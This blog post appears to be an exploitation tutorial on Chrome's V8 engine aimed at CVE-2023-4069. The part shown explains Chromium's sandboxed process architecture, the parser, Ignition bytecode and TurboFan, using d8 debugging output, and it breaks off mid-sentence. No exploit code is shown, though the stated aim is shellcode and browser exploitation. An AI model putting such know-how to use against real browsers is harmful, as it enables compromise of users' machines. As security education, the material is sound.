










An Introduction to Chrome Exploitation - Maglev Edition
Introduction
Originally, I intended to write a simple note on the Maglev compiler and how to adjust V8 shellcode from Linux to Windows. But as I started, the project grew unexpectedly. I found myself diving into some prerequisites like the V8 pipeline and a root cause analysis of CVE-2023-4069, the bug we are about to explore.
What began as a brief memo soon unfolded into a deeper exploration and I hope the reader will find some benefits from these additional insights. In any case, the table of contents is there to guide you directly to the sections that most capture your interest :)
Table of Contents
- Introduction
- The Chromium Security Architecture
- The V8 Pipeline
- Setting up the V8 Debugging Environment
- CVE-2023-4069 RCA and Walkthrough
- JIT-Spraying Shellcode
- Addendum: Version Independent Shellcode
- Conclusions
- External References
The Chromium Security Architecture
Before we get into the nitty-gritty of the renderer process and the V8 engine, let’s take a step back and look at the big picture. Understanding how Chromium’s overall architecture works will help make sense of all the details we’re about to dive into.
Chromium uses a multi-process architecture to separate different tasks into different processes. This separation increases the browser’s stability and security because issues in one process (like a tab crashing) do not affect the others.
The Chromium Project image below provides a color-by-risk overview of the browser’s components.
 The Chromium Security Architecture
In the diagram, we see several distinct process types:
Browser Process: Outlined in red, it manages the user interface, disk and network I/O, and acts as the central coordinator for the other processes. It operates with full user privileges and manages most system resources, including the user profile and persistent data.
Renderer Processes: Handle rendering web pages and executing JavaScript. Each website or web application typically runs in its own renderer process, isolated from others. These processes are subject to strict mitigations — such as the sandbox — to ensure the secure rendering of web content.
GPU Process: Illustrated in green, it handles GPU tasks separate from rendering web content, improving performance and security. Running with minimal permissions, it handles graphics-intensive tasks efficiently.
Utility Process: This process handles short-lived operations and can run sandboxed or unsandboxed depending on the specific function, such as printing.
Lastly, the PPAPI (Pepper Plugin API) Broker Process and the NaCl (Native Client) Loader Process are two components in Chromium’s architecture that manage different aspects of running code within the browser.
For each process, Chromium enforces two security measures: sandboxing and the principle of least privilege.
Each renderer and plugin process is run within a sandbox, a restricted environment that limits the process’s ability to read and write to the disk, interact with the OS, or communicate over the network. This containment strategy significantly reduces the risk of malicious code escaping the browser and affecting the entire user’s system.
In addition, each process operates with the least privilege necessary to perform its functions. For example, renderer processes have very limited access to system resources, and any action that requires more privileges (like saving a file) must go through the browser process, which acts as a security gatekeeper.
Turning now our focus to the main topic of this blog post, we’re going to take a closer look at the renderer process in Chromium. The renderer process is critical to the browser’s security as it’s responsible for drawing web pages and executing untrusted JavaScript code, making it a prime target for exploits.
This brings us to the V8 engine, which is inherently linked to the renderer process. V8 is the JavaScript and WebAssembly engine powering this process, parsing and executing the code that defines user interactions and site functionalities. Understanding V8 is essential because any issues here directly impact the security and stability of the renderer process.
Let’s explore in more detail the different components that make the V8 Chromium JIT pipeline efficient and examine how its inherent complexity can lead to type confusion bugs.
The V8 Pipeline
In its original inception from 2008, V8 was designed with simplicity in mind and involved only three major steps.
 The V8 Pipeline in 2008 - Source: Google
It all begins with JavaScript source code that is fed into the compiler pipeline. This JS code is first processed by a parser, which checks syntax and structures it into an Abstract Syntax Tree (AST). The AST represents the program’s syntax in a hierarchical tree format, with each node representing different constructs in the source code.
Following this, the AST is transformed into executable code through a process called code generation (codegen), initially producing semi-optimized machine code. This code is already executable but not fully optimized, allowing for quick, but not fully efficient, execution.
As websites became more complex, so did their JavaScript. It then became necessary to improve browser performance.
The idea of Just-in-time (JIT) compilation helped meet those demands for performance. This approach differs from traditional compilation, which converts code to machine language before it is executed on a target device (known as Ahead-Of-Time, or AOT, compilation). Conversely, JIT compilation is a technique where computer code is compiled into machine language at runtime rather than prior to execution.
JIT compilers aim to combine the speed of compiled code with the flexibility of interpretation, often used in environments where code may change at runtime or where fast startup time is needed, as in modern browsers.
The concept of JIT compilation became popular in the 90s with the rise of virtual machine environments like the Java Virtual Machine (JVM) and the .NET Common Language Runtime (CLR). These environments use JIT compilation to execute platform-independent code like Java bytecode or CIL code in the .NET framework.
In 2010, the first JIT compiler named Crankshaft was launched and later, in 2014, replaced by the well-known and more performant TurboFan.
TurboFan utilizes a flexible intermediate representation allowing for sophisticated code optimizations. It excels in optimizing new language constructs such as classes, destructuring, and default parameters, which its predecessor Crankshaft struggled with.
For the past decade, TurboFan has been a part of the V8 pipeline, along with its counterpart interpreter, Ignition. Together, they define the well-established modern JIT pipeline, as depicted below.
 The V8 Pipeline Over Recent Years - Source: Google
Ignition plays an initial role in the V8 pipeline by compiling JavaScript code into bytecode rather than directly executing it as machine code. This bytecode is a more compact and quicker-to-execute form of the source JavaScript, facilitating faster startup times and less memory usage compared to full machine code compilation.
Ignition also collects type feedback and execution statistics while interpreting the bytecode, which is essential for the subsequent optimization phase. This data informs TurboFan about how the code is being used in practice, enabling it to make more informed optimization decisions. When specific functions or code blocks are identified as performance-critical, TurboFan takes over, using the data it has obtained to compile these parts into optimized machine code.
In this way, Ignition sets the stage for TurboFan’s optimization, striking a balance between initial execution speed and longer-term performance efficiency in V8’s execution of JavaScript.
Let’s now explore the V8 compiler pipeline by providing examples for each of the steps involved, beginning with the parser.
The Parser
We mentioned that the first step involves the parser. But what’s actually does a parser?
-
Lexical Analysis (Tokenization) The first step in the parsing process is lexical analysis, where the V8 engine converts the raw JavaScript code into tokens. Tokens are the smallest meaningful units of the program, such as keywords (if, return, etc.), identifiers, operators, and literals. This step involves scanning the code character by character and grouping these characters into tokens based on JavaScript syntax rules.
-
Syntax Analysis After tokenization, the syntax analysis phase begins, where the tokens are analyzed against JavaScript’s grammar rules to build a parse tree. This parse tree represents the syntactic structure of the code. Syntax analysis checks if the arrangement of tokens adheres to the language’s grammar, defined withing ECMAscript, ensuring that the code is syntactically correct. If there are any syntax errors (like missing brackets or misused keywords), this is the stage at which they are typically detected and reported.
-
Parse Tree to Abstract Syntax Tree (AST) Transformation Although the parse tree is a detailed representation of the code structure, it often contains every detail of the syntax, which can be verbose and include redundant information that isn’t necessary for execution. Therefore, the next step involves transforming this parse tree into an Abstract Syntax Tree (AST), which is a more compact and meaningful representation of the syntactic structure.
To illustrate the concept, let’s consider this simple JavaScript snippet:
Copy code
let sum = a + b;
Simple JS variable
During the first step, Lexical Analysis (or Tokenization, the engine reads the JavaScript code and breaks it down into sensical pieces, called tokens. For the above code snippet, the derived tokens would be:
- let: a keyword that indicates variable declaration.
- sum: an identifier used as the variable name.
- =: an assignment operator.
- a: an identifier representing a variable.
- +: an arithmetic operator for addition.
- b: another identifier representing a variable.
- ;: a semicolon marking the end of the statement.
Each token is then categorized based on its type (keyword, identifier, operator, etc.) during this phase.
On the second step, Syntax Analysis, the parser uses the tokens to construct a parse tree based on the grammar of the language. This tree represents the syntactic structure of the code, ensuring that the arrangement of tokens follows JavaScript’s ECMAscript rules. For our snippet, the parse tree would have a hierarchical structure somewhat like this:
- Statement (Variable Declaration)
- Keyword: let
- Identifier: sum
- Assignment Operator: =
- Expression:
- Identifier: a
- Operator: +
- Identifier: b
- End of statement: ;
This parse tree checks that the syntax is valid, like ensuring the identifiers are correctly placed around the assignment operator and the addition operation.
As third and last step, the parse tree, which includes all syntactic details, is then transformed into an Abstract Syntax Tree or AST, which is more abstract and streamlined for the purposes of execution.
In the AST, unnecessary syntactic details like the semicolon might be omitted, focusing more on the core components necessary for understanding the logic and flow of the code.
The AST for our example might look like:
- VariableDeclaration
- Identifier: sum
- AssignmentExpression
- BinaryExpression
- Left: Identifier a
- Operator: +
- Right: Identifier b
- BinaryExpression
This AST focuses on the logical connections: sum is declared and assigned the result of a + b. It abstracts away the specific syntax used (like ’let’ or ‘;’) to focus on the operations and their operands.
Having explored the theory behind the parser and AST, we can now verify it with the V8 debugger.
We’ll do so while getting familiar with the V8 debugging tool d8, which will be our target for the final exploit.
The d8 shell is primarily used for debugging and testing V8 engine features and supports various command-line flags that enable deep dives into V8’s processing of JavaScript code, such as displaying the Abstract Syntax Tree (AST) or tracing function optimizations.
Assuming we already managed to correctly compile V8 on Windows(jump to
Setting up the V8 Debugging
Environment if not) it
should contain an executable version of the d8 debugger under the
\v8\out\x64.debug folder.
Our testing code will look like the following, and it’s a simple JavaScript function that returns the square of an object property.
function square(obj) {
return obj.x * obj.x;
}
square({x:42});
JS function that returns the square of an object’s property value.
We can save its content as ‘square.js’ and invoke the d8 instance with the –print-ast flag in order to print out the AST and load the saved JS file from within d8.
C:\dev\v8\v8\out>x64.debug\d8.exe --print-ast
V8 version 11.5.150.16
d8> load('square.js')
...
[generating bytecode for function: square]
--- AST ---
FUNC at 15
. KIND 0
. LITERAL ID 1
. SUSPEND COUNT 0
. NAME "square"
. PARAMS
. . VAR (000002363D807850) (mode = VAR, assigned = false) "obj"
. DECLS
. . VARIABLE (000002363D807850) (mode = VAR, assigned = false) "obj"
. RETURN at 28
. . MUL at 41
. . . PROPERTY at 39
. . . . VAR PROXY parameter[0] (000002363D807850) (mode = VAR, assigned = false) "obj"
. . . . NAME x
. . . PROPERTY at 47
. . . . VAR PROXY parameter[0] (000002363D807850) (mode = VAR, assigned = false) "obj"
. . . . NAME x
...
Generating AST with d8
The output is pretty lengthy, so we’ll just describe the first AST definition and break down the key parts of this output to understand what they represent.
- FUNC node describes the function square with a parameter obj.
- PARAMS and DECLS nodes define the variable obj used as the function’s parameter.
- RETURN node indicates the return statement of the function.
- MUL node under the return statement represents the multiplication operation, indicating the function returns the product of two values.
- PROPERTY nodes access the property x of the parameter obj twice, as required by the multiplication operation.
All the AST expression statements can be found under the header definition in the V8 codebase.
The Interpreter - Ignition
With the Abstract Syntax Tree (AST) effectively constructed, the next phase involves the V8 interpreter, aptly named Ignition.
Ignition takes the AST and systematically walks through it to generate bytecode.
The bytecode is a lower-level, simpler set of instructions that the engine can execute directly. Unlike the AST, which is more abstract and serves as a high-level representation of the code structure, bytecode is closer to machine code, making it faster and more efficient for execution.
After this bytecode generation, the AST is no longer necessary and is therefore deleted to free up resources. The bytecode then enters the execution phase, where V8’s virtual machine executes it to perform the operations defined by the original JavaScript code.
A key aspect of the virtual machine operations involves the use of registers, specifically labeled as r0, r1, r2, etc., and an accumulator register. The accumulator is central to the execution of almost all bytecodes, though it is not directly specified in the bytecode instructions themselves. For example, in the bytecode instruction Add r1, the value in register r1 is added to the value currently held in the accumulator.
To get a better understanding, let’s see how real bytecode looks like under the V8 debugger.
To print out the bytecode of a JavaScript function using the d8 shell
from the V8 engine, we can use the --print-bytecode flag. This flag
allows us to observe the bytecode that V8 generates for a specific
JavaScript function.
Let’s revisit the same JavaScript square function we examined earlier.
We can invoke the square function by passing an object with a small integer (SMI) property.
d8> load ('square.js')
[generated bytecode for function: (0x03bb0011a759 <SharedFunctionInfo>)]
...
d8> square({x:42});
[generated bytecode for function: (0x03bb0011b66d <SharedFunctionInfo>)]
Bytecode length: 15
Parameter count 1
Register count 3
Frame size 24
Bytecode age: 0
000003BB0011B6FA @ 0 : 21 00 00 LdaGlobal [0], [0]
000003BB0011B6FD @ 3 : c4 Star1
000003BB0011B6FE @ 4 : 7d 01 02 29 CreateObjectLiteral [1], [2], #41
000003BB0011B702 @ 8 : c3 Star2
000003BB0011B703 @ 9 : 62 f9 f8 03 CallUndefinedReceiver1 r1, r2, [3]
000003BB0011B707 @ 13 : c5 Star0
000003BB0011B708 @ 14 : aa Return
Constant pool (size = 2)
000003BB0011B6C9: [FixedArray] in OldSpace
- map: 0x03bb00000089 <Map(FIXED_ARRAY_TYPE)>
- length: 2
0: 0x03bb0011a6cd <String[6]: #square>
1: 0x03bb0011b6b5 <ObjectBoilerplateDescription[3]>
Handler Table (size = 0)
Source Position Table (size = 0)
[generated bytecode for function: square (0x03bb0011a915 <SharedFunctionInfo square>)]
Bytecode length: 13
Parameter count 2
Register count 1
Frame size 8
Bytecode age: 0
000003BB0011B7EA @ 0 : 2d 03 00 01 GetNamedProperty a0, [0], [1]
000003BB0011B7EE @ 4 : c5 Star0
000003BB0011B7EF @ 5 : 2d 03 00 01 GetNamedProperty a0, [0], [1]
000003BB0011B7F3 @ 9 : 3a fa 00 Mul r0, [0]
000003BB0011B7F6 @ 12 : aa Return
Constant pool (size = 1)
000003BB0011B7BD: [FixedArray] in OldSpace
- map: 0x03bb00000089 <Map(FIXED_ARRAY_TYPE)>
- length: 1
0: 0x03bb00002bb9 <String[1]: #x>
Handler Table (size = 0)
Source Position Table (size = 0)
1764
...
Generating Bytecode with d8
From the debugger, we can see that Ignition has generated two bytecode functions.
The first function is responsible for setting up the context and calling the square function with a specific object. The second function is the bytecode of the square function itself that calculates the square of the property x of an object. Let’s explore each part in detail.
As mentioned, the first bytecode block is to prepare the environment and call the square function:
-
LdaGlobal [0], [0]: Load a global variable (the square function) into the accumulator. The first [0] is an index or reference to the name of the property in the constant pool. The constant pool is a table that holds various constants, such as strings, numbers, and other metadata used by the bytecode. [0] here would refer to the position in the constant pool where the property name is stored. The rightmost [0] instead, is an index or a hint used internally by the V8 engine for optimization purposes.
-
Star1: Store the value from the accumulator into register r1.
-
CreateObjectLiteral [1], [2], #41: Create an object literal, which in this case is the object {x: 42}. The constants [1] and [2] point to template information for the object.
-
Star2: Store the newly created object into register r2.
-
CallUndefinedReceiver1 r1, r2, [3]: Call the function stored in r1 (square) with r2 as the argument (the {x: 42} object).
-
Star0 and Return: Store the result of the function call in r0 and return that value.
The second bytecode block represents the square function execution, which squares the x property of an object:
-
GetNamedProperty a0, [0], [1]: Get the property named x from the object passed as the argument and store it in the accumulator.
-
Star0: Store the property value into r0.
-
GetNamedProperty a0, [0], [1]: Once more, since it’s a square operation, it loads the same value into the accumulator.
-
Mul r0, [0]: Multiply the value in r0 by the one stored in the accumulator. In this case, the values multiplied are the same.
-
Return: Return the result of the multiplication that is stored in the accumulator.
Having understood how Ignition handles the initial execution of JavaScript code through bytecode, it’s now time to explore the final piece of V8’s pipeline: TurboFan.
The JIT compiler - Turbofan
Simply put, what TurboFan does is turn bytecode into highly optimized code.
It was originally conceived to speed up applications running on asm.js and was later improved to optimize many other use cases where better performance was necessary.
On top of generating bytecode, the Ignition engine in V8 collects information about how the code runs, which helps it understand how to access parts of the code more quickly in future runs. For instance, if a piece of code accesses a property in the same way multiple times, Ignition remembers this to avoid repeated searches, using a technique called inline caching.
The information that Ignition gathers during code execution is saved in a Feedback Vector (once called the Type Feedback Vector). This is a special data storage area attached to the function, and it has different sections for different types of feedback, like bitsets, other functions, or class types, tailored to specific optimization needs.
This information is also used by TurboFan, which anticipates the types of data it will see based on past operations to optimize the code further, allowing JavaScript to run faster. This process is known as Speculative Optimization.
Before emitting optimal machine code, TurboFan has to know how to make sense of the feedback vectors received by Ignition. It does so by building a graph named Sea of Nodes.
Sea of Nodes is a graph-based intermediate representation (IR) of the program’s code. In this representation, the program is visualized as a network (or “sea”) of interconnected nodes, where each node represents operations or values (like arithmetic operations, constants, variables, etc.). This graphical structure goes beyond traditional linear execution paths, focusing instead on the relationships and dependencies between operations.
TurboFan leverages this representation through multiple optimization phases,like dead code elimination, constant folding, and type lowering. Going deeper into Sea of Nodes and optimization is beyond the scope of this blog post, but the reader is encouraged to further explore the topic.
Great resources about Turbofan are Jeremy Fativeau Introduction to Turbofan and Jack Halon’s blog post series about Chrome exploitation.
Back to our Turbofan JIT example, let’s analyze how the V8 pipeline switches from Ignition to Turbofan.
In the below example, the hot_square` function is repeatedly invoked within a loop, suggesting it’s a “hot” function due to its frequent execution. After several iterations, V8’s runtime profiler identifies it as a candidate for optimization.
function hot_square(obj) {
return obj.x * obj.x;
}
for (let i = 0; i < 999999; i++) {
hot_square({x: i});
}
Making the square function ‘hot’
V8 utilizes “maps” or hidden classes to manage and optimize object properties. A map
is an internal representation that defines the layout (i.e., the
structure and property types) of an object. When hot_square is
called with an object {x: i}, V8 uses maps to keep track of the
